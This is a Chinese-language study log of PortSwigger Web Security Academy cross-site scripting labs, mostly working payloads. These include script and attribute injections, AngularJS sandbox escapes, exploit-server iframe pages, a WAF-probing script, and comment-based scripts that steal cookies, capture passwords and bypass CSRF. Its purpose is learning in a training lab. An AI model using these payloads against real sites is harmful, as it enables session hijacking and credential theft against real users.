

## Lab: Reflected XSS into HTML context with nothing encoded

| Dimension | Description                                                                                                                                                                                             |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/reflected#what-is-reflected-cross-site-scripting<br/>https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded                                                                                                    |

基礎題，無難度

<!-- prettier-ignore -->
```html
?search=<script>alert(1)</script>
```

## Lab: Stored XSS into HTML context with nothing encoded

| Dimension | Description                                                                                                                                                                                       |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/stored#what-is-stored-cross-site-scripting<br/>https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded                                                                                                 |

基礎題，無難度

<!-- prettier-ignore -->
```html
<script>alert(1)</script>
```

## Lab: DOM XSS in `document.write` sink using source `location.search`

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#exploiting-dom-xss-with-different-sources-and-sinks |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink                             |

從來沒用過 [document.write](https://developer.mozilla.org/en-US/docs/Web/API/Document/write)，原來是已經棄用的方法，但可能有機會在老網站看到吧

先觀察網站的 js

<!-- prettier-ignore -->
```js
function trackSearch(query) {
    document.write('');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    trackSearch(query);
}      
```

payload

<!-- prettier-ignore -->
```html
"/><script>alert(1)</script>
```

注入後會變成

<!-- prettier-ignore -->
```html
<script>alert(1)</script>'">
```

## Lab: DOM XSS in `innerHTML` sink using source `location.search`

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#exploiting-dom-xss-with-different-sources-and-sinks |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink                                  |

先觀察網站的 js 有以下程式碼

<!-- prettier-ignore -->
```js
function doSearchQuery(query) {
    document.getElementById('searchMessage').innerHTML = query;
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
    doSearchQuery(query);
}
```

插入 `<script>alert(1)</script>` 失敗，不知道是不是瀏覽器的安全機制阻擋

查了一下 [MDN innerHTML](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML#security_considerations)

```
While the property does prevent `<script>` elements from executing when they are injected
```

調整為 `` 成功

還不錯，有學到新東西，原來用 `innerHTML` 插入 `<script>` 不會執行程式碼

## Lab: DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery              |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink |

基礎題，無難度

<!-- prettier-ignore -->
```
?returnPath=javascript:alert(document.cookie)
```

## Lab: DOM XSS in jQuery selector sink using a hashchange event

| Dimension | Description                                                                                               |
| --------- | --------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-jquery                     |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event |

先觀察網站的 js

<!-- prettier-ignore -->
```js
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```

老實說我沒深入研究 jQuery 有哪些 method 可以觸發 XSS，但 jQuery 底層基本上也是調用 DOM API

我們先確認這段程式碼的正常邏輯，如果網址 hash 包含文章標題，就會自動 `scrollIntoView`

<!-- prettier-ignore -->
```
#Spider Web Security
```

先嘗試注入點在哪裡，推測是 jQuery 的 `$`，發現這樣可以成功注入

<!-- prettier-ignore -->
```js
$("");
```

之後構造一個假的 Server

```html
<iframe
  src="https://0a51004f0349d85a80bf035d003e002e.web-security-academy.net/#"
  onload="this.src+=''"
></iframe>
```

## Lab: Reflected XSS into attribute with angle brackets HTML-encoded

| Dimension | Description                                                                                                  |
| --------- | ------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes                |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded |

後來發現注入點在 `<input value="">` 這邊

payload

<!-- prettier-ignore -->
```
123" autofocus onfocus="alert(0)" data-type="456
```

會變成

<!-- prettier-ignore -->
```html
<input value="123" autofocus onfocus="alert(0)" data-type="456" />
```

這次是透過 AI 學到 `autofocus onfocus="alert(0)"` 這個新的方法，主要是因為這個組合比較少用XD



## Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes                    |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded |

在 website 欄位注入 `javascript:alert(1)`，就會變成

<!-- prettier-ignore -->
```html
<a href="javascript:alert(1)"></a>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string               |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded |

先觀察網站的 js

<!-- prettier-ignore -->
```js
var searchTerms = '123';
document.write('');
```

題目有給 hint，是要想辦法跳出 js string，payload 如下

<!-- prettier-ignore -->
```js
';alert(1);var a = '3
```

注入後會變成

<!-- prettier-ignore -->
```js
var searchTerms = '';alert(1);var a = '3';
```

## Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#exploiting-dom-xss-with-different-sources-and-sinks |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element       |

先觀察網站的 js

<!-- prettier-ignore -->
```js
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
```

payload

<!-- prettier-ignore -->
```js
encodeURIComponent(`"></select>`);
```

encode 以後注入到 querystring 的 storeId

<!-- prettier-ignore -->
```
?productId=2&storeId=%22%3E%3C%2Fselect%3E%3Cimg%20src%3D'x'%20onerror%3D'alert(1)'%3E
```

## Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

| Dimension | Description                                                                                  |
| --------- | -------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-in-angularjs     |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression |

AngularJS 也是我不熟悉的領域 QQ，但我忘記以前在哪裡看過可以注入，成功～

<!-- prettier-ignore -->
```js
{{ constructor.constructor('alert("XSS")')() }}
```

## Lab: Reflected DOM XSS

| Dimension | Description                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected                           |

先觀察網站的 js，主要的注入點應該是 `eval`

<!-- prettier-ignore -->
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
        eval('var searchResultsObj = ' + this.responseText);
        displaySearchResults(searchResultsObj);
    }
};
xhr.open("GET", path + window.location.search);
xhr.send();
```

試著輸入 `"`，API 回傳的是 `{"results":[],"searchTerm":"\""}`，最終嘗試

<!-- prettier-ignore -->
```
\"};alert(1);//
```

讓整段變成

<!-- prettier-ignore -->
```js
{"results":[],"searchTerm":"\\"};alert(1);//"}
```

## Lab: Stored DOM XSS

| Dimension | Description                                                                                                         |
| --------- | ------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/dom-based#dom-xss-combined-with-reflected-and-stored-data |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored                              |

這題算蠻簡單的，嘗試三次就猜出邏輯，連 js 的邏輯都沒看

<!-- prettier-ignore -->
```html
</p>
```

## Lab: Reflected XSS into HTML context with most tags and attributes blocked

| Dimension | Description                                                                                                               |
| --------- | ------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                                  |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked |

test payloads

<!-- prettier-ignore -->
```html
<div>123</div> => Tag is not allowed
<div> => Tag is not allowed
```

突破口，可以關閉標籤，接下來要尋找怎麼開啟新的標籤

<!-- prettier-ignore -->
```html
</h1>
```

嘗試 `Tag is not allowed` 的邏輯，推測應該是有黑名單機制

<!-- prettier-ignore -->
```html
<di => bypass
<di> => bypass
<di></di> => bypass
</script> => bypass
alert(1)</script> => bypass
<SCRIPT> => Tag is not allowed
<di><script>alert(1)</di> => Tag is not allowed
<div> => Tag is not allowed
```

偶然發現 `Attribute is not allowed`

<!-- prettier-ignore -->
```html
<di onload="alert(1)"></di> => Attribute is not allowed
<di ONload="alert(1)"></di> => Attribute is not allowed
```

這題最後我實在找不到有啥 tag 跟 attribute 可以注入，於是參考了解答

我發現有 [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 超讚的

其實如果把這邊列出的所有 tags 跟 attributes 都用腳本去測試的話就可以了，不過既然我們已經知道解法，重點只是要學習解題思路，所以最後的答案是

<!-- prettier-ignore -->
```html
<body onresize="print(1)"></body>
```

然後在 exploit-server 的 response body 輸入

<!-- prettier-ignore -->
```html
encodeURIComponent(`<body onresize="print()"></body>`)
// %3Cbody%20onresize%3D%22print()%22%3E%3C%2Fbody%3E
<iframe src="https://0a75006f032f73af803e268000fb00bd.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

## Lab: Reflected XSS into HTML context with all tags blocked except custom ones

| Dimension | Description                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags                           |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked |

這題是有讓我學到新的概念，就是 custom tag 也可以觸發 `on` 事件，另外 [autofocus](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Global_attributes/autofocus) 是可以在所有 tag 上的屬性

<!-- prettier-ignore -->
```html
<di onfocus="alert(document.cookie)" tabindex="0" autofocus></di>
```

有了這個觀念，就可以把上面這坨塞到 querystring

<!-- prettier-ignore -->
```js
encodeURIComponent(`<di onfocus="alert(document.cookie)" tabindex=0 autofocus></di>`)
// /?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E
```

之後在 exploit-server 的 response body 輸入

```html
<html>
  <head>
    <meta
      http-equiv="refresh"
      content="0; url=https://0a7c009b044d931980202bbf0062009c.web-security-academy.net/?search=%3Cdi%20onfocus%3D%22alert(document.cookie)%22%20tabindex%3D0%20autofocus%3E%3C%2Fdi%3E"
    />
  </head>
</html>
```

使用者點擊 exploit-server 的網址就會轉到 vulnerable 網址，這題不能用 `<iframe>` 是因為 vulnerable 網址有設定 [X-Frame-Options: SAMEORIGIN](../http/iframe-security.md)

## Lab: Reflected XSS with some SVG markup allowed

| Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-between-html-tags       |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-some-svg-markup-allowed |

先用 [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) 查詢 `SVG` 支援的 onEvent without user interaction

之後寫一個 js 測試哪些 onEvent 可以通過（被 WAF 擋下來會是 400 Bad Request）

```js
const onEvents = [
  "onafterscriptexecute",
  "onanimationcancel",
  "onanimationend",
  "onanimationiteration",
  "onanimationstart",
  "onbeforeprint",
  "onbeforescriptexecute",
  "onbeforeunload",
  "onbegin",
  "oncanplay",
  "oncanplaythrough",
  "oncontentvisibilityautostatechange",
  "oncontentvisibilityautostatechange(hidden)",
  "oncuechange",
  "ondurationchange",
  "onend",
  "onended",
  "onerror",
  "onfocus",
  "onfocus(autofocus)",
  "onfocusin",
  "onhashchange",
  "onload",
  "onloadeddata",
  "onloadedmetadata",
  "onloadstart",
  "onmessage",
  "onpagereveal",
  "onpageshow",
  "onplay",
  "onplaying",
  "onpopstate",
  "onprogress",
  "onrepeat",
  "onresize",
  "onscroll",
  "onscrollend",
  "onscrollsnapchange",
  "onscrollsnapchanging",
  "onsecuritypolicyviolation",
  "onsuspend",
  "ontimeupdate",
  "ontoggle",
  "ontransitioncancel",
  "ontransitionend",
  "ontransitionrun",
  "ontransitionstart",
  "onunhandledrejection",
  "onunload",
  "onwaiting(loop)",
  "onwebkitanimationend",
  "onwebkitanimationiteration",
  "onwebkitanimationstart",
  "onwebkitplaybacktargetavailabilitychanged",
  "onwebkittransitionend",
];
for (const onEvent of onEvents) {
  fetch(
    `${location.origin}/?search=${encodeURIComponent(`<svg ${onEvent}="alert(1)">`)}`,
  ).then((res) => {
    if (res.status === 200) console.log(onEvent);
  });
}
```

最終結果是 `onbegin`，完全沒用過，查一下 [MDN](https://developer.mozilla.org/en-US/docs/Web/API/SVGAnimationElement/beginEvent_event)

這題我只是單純卡在對 SVG 可用的 Elements 跟 onBegin 不熟，後來直接請 AI 給我 `onbegin` 的範例，最終測出

<!-- prettier-ignore -->
```html
<svg><animateTransform onbegin="alert(1)" attributeName="transform" dur="0.1s" /></svg>
```

## Lab: Reflected XSS in canonical link tag

| Dimension | Description                                                                                   |
| --------- | --------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-html-tag-attributes |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-canonical-link-tag     |

透過瀏覽器 F12 > Network > Doc 觀察 Response Body

<!-- prettier-ignore -->
```html
<link rel="canonical" href='https://0acf009b036572748111259b000f00d9.web-security-academy.net/'/>
```

記住，因為瀏覽器 parsing DOM 的機制，所以不能看 F12 > Element，一定要看 Response Body 原始傳輸的 HTML

我們可以嘗試注入單引號來跳脫，並且注意不要注入空白，因為在網址列會被 encode 成 `%20`，加上 attribute 之間其實也不一定要空白

<!-- prettier-ignore -->
```
?query='accesskey='x'onclick='alert(1)
```

最終會產生

<!-- prettier-ignore -->
```html
<link rel="canonical" href='https://0acf009b036572748111259b000f00d9.web-security-academy.net/?query='accesskey='x'onclick='alert(1)'/>
```

這題卡了約 15 分鐘，我一開始看 F12 > Element 是

<!-- prettier-ignore -->
```html
<link rel="canonical" href="https://0acf009b036572748111259b000f00d9.web-security-academy.net/"/>
```

所以我以為要注入雙引號，瘋狂嘗試很久都無解，後來看了 F12 > Network > Doc 觀察 Response Body 才發現原來是要注入單引號！算是學到一個新知識，不能只相信 F12 > Element，因為那是 瀏覽器 parsing DOM 之後的結果

## Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

| Dimension | Description                                                                                                             |
| --------- | ----------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#terminating-the-existing-script                      |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-single-quote-backslash-escaped |

這題應該是 [Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded](#lab-reflected-xss-into-a-javascript-string-with-angle-brackets-html-encoded) 的進階版

先觀察網站的 js

<!-- prettier-ignore -->
```js
var searchTerms = '123';
document.write('');
```

payload

<!-- prettier-ignore -->
```html
</script>
```

## Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

| Dimension | Description                                                                                                                                         |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string                                              |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped |

[breaking-out-of-a-javascript-string](https://portswigger.net/web-security/cross-site-scripting/contexts#breaking-out-of-a-javascript-string) 有給提示

payload

<!-- prettier-ignore -->
```
\';alert(1);//
```

會產生

<!-- prettier-ignore -->
```js
var searchTerms = '\\';alert(1);//';
```

## Lab: Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

| Dimension | Description                                                                                                                                                    |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#making-use-of-html-encoding                                                                 |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-onclick-event-angle-brackets-double-quotes-html-encoded-single-quotes-backslash-escaped |

在留言的 website 欄位輸入以下 payload

<!-- prettier-ignore -->
```
https://&apos;-alert(document.domain)-&apos;
```

result

<!-- prettier-ignore -->
```html
<a id="author" href="https://'-alert(document.domain)-'" onclick="var tracker={track(){}};tracker.track('https://'-alert(document.domain)-'');">123</a>
```

## Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

| Dimension | Description                                                                                                                                                        |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts#xss-in-javascript-template-literals                                                             |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-template-literal-angle-brackets-single-double-quotes-backslash-backticks-escaped |

payload

<!-- prettier-ignore -->
```js
${alert(document.domain)}
```

會產生以下

<!-- prettier-ignore -->
```js
var message = `0 search results for '${alert(document.domain)}'`;
```

## Lab: Exploiting cross-site scripting to steal cookies

| Dimension | Description                                                                                                           |
| --------- | --------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-steal-cookies |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies                             |

這題本來是設計給有買 Burp Suite Professional 的人類，但 hint 有說到，也有方法不需要

我是參考 [這個影片](https://www.youtube.com/watch?v=N_87S9XVy0w) 的解法，概念我都懂，只是為啥我用 postId=2 這篇文章，就沒有受害者瀏覽呢？後來是跟著影片一起用 postId=5，就有成功看到受害者 Po 文

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 構造以下 html，讓受害者瀏覽留言時，背後發送一個留言的 API

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(`${location.origin}/post/comment`, {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `csrf=${csrf}&postId=5&comment=${cookie}&name=${new Date().getTime()}&email=789%40789&website=`,
      method: "POST",
      credentials: "include",
    });
  });
</script>
```

3. 看到受害者瀏覽留言後，會發送一個留言

<!-- prettier-ignore -->
```
secret=HEta6nCEhiztNlcHwjpE1PimJ3lpxmhJ;
session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m
```

4. 拿著這組 cookie 去訪問右上角的 `/my-account` 網址，成功解題～

```js
document.cookie = "session=RlrBG3zwpRjdyVblTWlne4ILI38vhc4m";
fetch(`${location.origin}/my-account`);
```

## Lab: Exploiting cross-site scripting to capture passwords

| Dimension | Description                                                                                                               |
| --------- | ------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-capture-passwords |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords                              |

跟上一題的情況一樣，只是現在要改偷登入頁的帳密。這題原本的概念是，要把偷到的帳密送到自己架的 Server，但由於資安考量，PortSwigger 限制只能送到他們架的 Server（要花錢買 Burp Suite Professional），所以我們用比較危險的方式，把偷到的帳密透過留言系統顯示出來

1. 發現 Comment 欄位完全沒有防護，可以直接插入 `<script>`
2. 試試看用 `iframe` 載入登入頁，能不能拿到帳密

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    console.log({ username, password });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

3. 把 `console.log` 改成發送留言，拿到的都是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    const username = window.frames[0].document.querySelector(
      "input[name='username']",
    ).value;
    const password = window.frames[0].document.querySelector(
      "input[name='password']",
    ).value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(`${location.origin}/post/comment`, {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
      method: "POST",
      credentials: "include",
    });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

4. 加個 `DOMContentLoaded` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  function onloadIframe() {
    window.frames[0].addEventListener("DOMContentLoaded", () => {
      const username = window.frames[0].document.querySelector(
        "input[name='username']",
      ).value;
      const password = window.frames[0].document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(`${location.origin}/post/comment`, {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        credentials: "include",
      });
    });
  }
</script>
<iframe
  src="https://0a34009004a74700e417261e007f005f.web-security-academy.net/login"
  onload="onloadIframe()"
  style="display:none"
></iframe>
```

5. 改成用 `window.open` 試試看，拿到的還是 `{"username":"","password":""}`

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const loginWindow = window.open(`${location.origin}/login`, "_blank");
    loginWindow.addEventListener("DOMContentLoaded", () => {
      const username = loginWindow.document.querySelector(
        "input[name='username']",
      ).value;
      const password = loginWindow.document.querySelector(
        "input[name='password']",
      ).value;
      const csrf = document.querySelector("input[name='csrf']").value;
      const cookie = document.cookie;
      fetch(`${location.origin}/post/comment`, {
        headers: {
          "content-type": "application/x-www-form-urlencoded",
        },
        body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
        method: "POST",
        credentials: "include",
      });
    });
  });
</script>
```

6. 改成直接注入 `<input>`，成功拿到 `{"username":"administrator","password":"6g7n2wu1j8p490o2iss4"}`

```html
<script>
  function handlePasswordChange() {
    const username = document.querySelector("input[name='username']").value;
    const password = document.querySelector("input[name='password']").value;
    const csrf = document.querySelector("input[name='csrf']").value;
    const cookie = document.cookie;
    fetch(`${location.origin}/post/comment`, {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `csrf=${csrf}&postId=5&comment=${JSON.stringify({ username, password })}&name=${new Date().toISOString()}&email=789%40789&website=`,
      method: "POST",
      credentials: "include",
    });
  }
</script>
<input type="username" name="username" />
<input type="password" name="password" onchange="handlePasswordChange()" />
```

我覺得我好蠢，想了 `<iframe>` 跟 `window.open` 這兩招，卻沒有想到可以直接插入 `<input>`

但這題的解法，也讓我想要重新認識瀏覽器 autofill 的安全性機制

<!-- todo-yusheng -->

1. 透過 `<iframe>` 開啟的登入頁，會有 autofill 的功能嗎？
2. 透過 `window.open` 開啟的登入頁，會有 autofill 的功能嗎？

## Lab: Exploiting XSS to bypass CSRF defenses

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/exploiting#exploiting-cross-site-scripting-to-bypass-csrf-protections |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf                                           |

1. 找到 Comment 欄位沒有防護，可注入 `<script>`
2. 找到 CRSF Token 是在 `<input required="" type="hidden" name="csrf" value="p53YpGIoVu9mrEgUwXDkQOpCi1AyxfcT">`
3. 把更改 email 的 request 複製下來，貼到留言內容

```html
<script>
  addEventListener("DOMContentLoaded", () => {
    const csrf = document.querySelector("input[name='csrf']").value;
    fetch(`${location.origin}/my-account/change-email`, {
      headers: {
        "content-type": "application/x-www-form-urlencoded",
      },
      body: `email=hacked${new Date().toISOString()}%40normal-user.net&csrf=${csrf}`,
      method: "POST",
      credentials: "include",
    });
  });
</script>
```

## Lab: Reflected XSS with AngularJS sandbox escape without strings

| Dimension | Description                                                                                                                                  |
| --------- | -------------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection                                            |
| Lab       | https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-without-strings |

這題稍微難，因為我對 AngularJS 這個老技術很不熟悉，雖然以前待過的某間公司有用這個技術，但大部分的人都覺得這是燙手山芋，基本上同事(React 前端工程師)們，沒人認真去研究它XD

我們有的工具包如下：

| Malicious JavaScript                                     | Description                                                                                   |
| -------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `'a'.constructor.prototype.charAt=[].join`               | Modify `String.prototype.charAt`                                                              |
| `$eval('x=alert(1)')`                                    | AngularJS's `$eval`, use assignment cause AngularJS think it's safe                           |
| `'a'.constructor.fromCharCode()`                         | Generate " or ' to bypass the restriction of using " and ' directly                           |
| `constructor.constructor('alert("XSS")')()`              | `constructor.constructor === Function`, `Function('alert("XSS")')()` will execute immediately |
| `[123]\|orderBy:constructor.constructor('x=alert(1)')()` | `orderBy` is a alternative of `$eval` that can execute expression if `$eval` is not available |

觀察網站有以下 html

<!-- prettier-ignore -->
```html
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '123';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">0 search results for 123</h1>
```

這題實在太難，我對 AngularJS 的機制完全不熟，所以直接參考答案

<!-- prettier-ignore -->
```
/?search=1&toString().constructor.prototype.charAt=[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)
```

這題我測出來的限制是

1. `'` 會被轉譯成 `&apos;`
2. search 總長度 120 字以內
3. `?search=1&x=3` 會產生以下 html，這點很重要，代表我們可以控制 `$scope.query[key]` 的 `key`

<!-- prettier-ignore -->
```html
<script>
angular.module('labApp', []).controller('vulnCtrl',function($scope, $parse) {
    $scope.query = {};
    var key = 'search';
    $scope.query[key] = '1';
    $scope.value = $parse(key)($scope.query);
    var key = 'x';
    $scope.query[key] = '3';
    $scope.value = $parse(key)($scope.query);
});
</script>
<h1 ng-controller="vulnCtrl" class="ng-scope ng-binding">3 search results for 3</h1>
```

這個 payload 的分析如下

1. `1&` 是因為要讓這段趕快跳過
<!-- prettier-ignore -->

```js
var key = "search";
$scope.query[key] = "1";
```

2. `toString()` => `'[object Undefined]'`，讓我們可以不用透過 `''` 的方式來創建字串
3. `''.constructor.prototype.charAt=[].join` 前面的工具包有介紹到
4. `''.fromCharCode(120,61,97,108,101,114,116,40,49,41)` 前面的工具包有介紹到

